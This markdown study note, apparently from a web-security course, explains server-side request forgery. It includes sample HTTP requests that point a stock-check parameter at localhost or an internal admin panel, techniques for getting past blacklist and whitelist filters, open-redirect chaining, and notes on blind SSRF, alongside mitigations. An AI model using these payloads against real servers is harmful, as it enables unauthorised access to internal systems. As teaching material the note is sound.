 <h4>Server-Side Request Forgery (SSRF)</h4>


Server-side request forgery attack allows attacker anto to trick server-side applications into allowing access to the server modifying files. ``SSRF can be successful if the target application reads that from a url without sanitizing it.``
--- ---
**`MITIGATION`**
```
1.Mitigate with firewall
2.Whitelisting and DNS Resolution
3.Authentication on Internal Services
4.Response Handling
5.Validation of user input
```
--- ---

**`Common Attacks`**

Attacks Against the Server Itself
- Attacker induces the application to make an HTTP request back to the server that is hosting the application (via loopback)
- Involves supplying the URL with a hostname like 127.0.0.1 or localhost
- Example code -- shopping application that allows user to check stock
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D
6%26storeId%3D1
```
	- Makes request to the URL
	- Retrieves the stock status
	- Return to the user
- Modify this for an attack:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://localhost/admin
```
	- Server fetches contents of the /admin url and returns to the user
	- Authenticates as the machine/server itself

Attacks Against Other Systems
- Assume there is an administrative interface at https://192.168.0.68/admin
- Attack can exploit and access this:
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-
urlencoded
Content-Length: 118
stockApi=http://192.168.0.68/admin
```

Circumventing Common SSRF Defenses

--- ---

<h4>Bypassing SSRF Defenses</h4>

It is common to see applications containing SSRF behavior together with defenses aimed at preventing malicious exploitation. Often, these defenses can be circumvented.

Bypassing Blacklist-Based Input Filters
- Applications often block input containing hostnames (127.0.0.1) or URLs (/admin)

- Bypass in these ways:
	- Use an alternative IP representation of 127.0.0.1 (21307066433)
	- Register your own domain that resolves to 127.0.0.1 (spoofed.burpcollaborator.net)
	- Obfuscate block strings using URL encoding or case variation

Bypassing Whitelist-Based Input Filters
```
- Embed creds in a URL before the hostname:
https://expected-host@evil
-host
```

- Use the # character to indicate a URL fragment:
```
https://evil-
host#expected-host
```

- Leverage DNS naming hierarchy to place required input into a fully-qualified DNS name you control:
```
https://expected-host.evil
-host
```

- URL-encode characters to confuse the URL-parsing code

- Combine these various techniques together

Bypassing with Open Redirection
- Suppose the following is true:
	- User-submitted URL is strictly validated
	- Application contains an open redirection vulnerability
- Construct a URL that meets the filter but redirects to a back-end target
```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://weliketoshop.net/product/nextProduct?currentProductId=6&path=http://1
92.168.0.68/admin
```
--- ---

<h4>Blind SSRF</h4>

- Cannot see the back-end request
- Harder to exploit but can lead to full RCE

Finding the Hidden Attack Surface
- Partial URLs in Requests
- URLs within data formats
	- Example is the XML data format
	- If an application parses XML data it might be vulnerable to an XXE injection
- SSRF via the Referer Header
	- Can exploit server-side analytic software that tracks visitors
	- Analytic software will often visit any 3rd party URL that appears in the Referer header
	- Can exploit the application by editing the referer header for a malicious site or code
